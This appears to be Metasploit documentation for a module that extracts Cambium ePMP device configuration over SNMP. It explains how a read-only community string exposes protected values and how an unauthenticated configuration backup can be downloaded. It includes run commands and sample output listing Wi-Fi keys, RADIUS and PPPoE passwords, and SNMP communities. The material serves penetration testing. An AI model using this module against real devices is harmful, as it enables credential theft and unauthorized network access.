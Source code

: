 Cambium devices (ePMP, PMP, Force, others) can be administered using SNMP. The device configuration contains IP addresses, keys, and passwords, amongst other information. This module uses SNMP to extract Cambium ePMP device configuration. On certain software versions, specific device configuration values can be accessed using SNMP RO string, even though only SNMP RW string should be able to access them, according to MIB documentation.

The module also triggers full configuration backup, and retrieves the backup url. The configuration file can then be downloaded without authentication. The module has been tested on Cambium ePMP versions <=3.5.

Note: If the backup url is not retrieved, it is recommended to increase the TIMEOUT and reduce the number of THREADS.

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/epmp1000_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set COMMUNTY [SNMP_COMMUNUTY_STRING]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/snmp/epmp_snmp_loot
msf auxiliary(epmp_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(epmp_snmp_loot) > set COMMUNITY private
msf auxiliary(epmp_snmp_loot) > run

msf auxiliary(epmp1000_snmp_loot) > run

[*] Fetching System Information...

[+] 1.3.3.7
[+] SNMP System Name: Cambium
[+] SNMP System Description: Cambium
[+] Device UpTime: 0021:08:36:45
[+] U-boot version: U-Boot 9350_PX 1.1.4.e (Feb 24 2016 - 20:14:38)

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: cambiumtrap
[+] SNMP Trap Server IP Address: Null

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: SSID
[+] Wireless Interface Encryption Key: secretkey
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): 2

[*] Fetching WIFI Radius Information...

[+] RADIUS server info:
[+] RADIUS server port: Null
[+] RADIUS server secret: Null
[+] Wireless Radius Username: cambium-station
[+] Wireless Radius Password: cambium

[*] Fetching Network PPPoE Information...

[+] Network PPPoE Service Name: temp
[+] Network PPPoE Username: username
[+] Network PPPoE Password: password

[+] 1.3.3.7 - Cambium ePMP loot saved at /root/.msf4/loot/20000000000003_default_1.3.3.7_snmp_loot_000001.txt
[+] 1.3.3.7 - Configuration backed-up for direct download at: http://1.3.3.7/dl/3.5_00000000000001.json
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
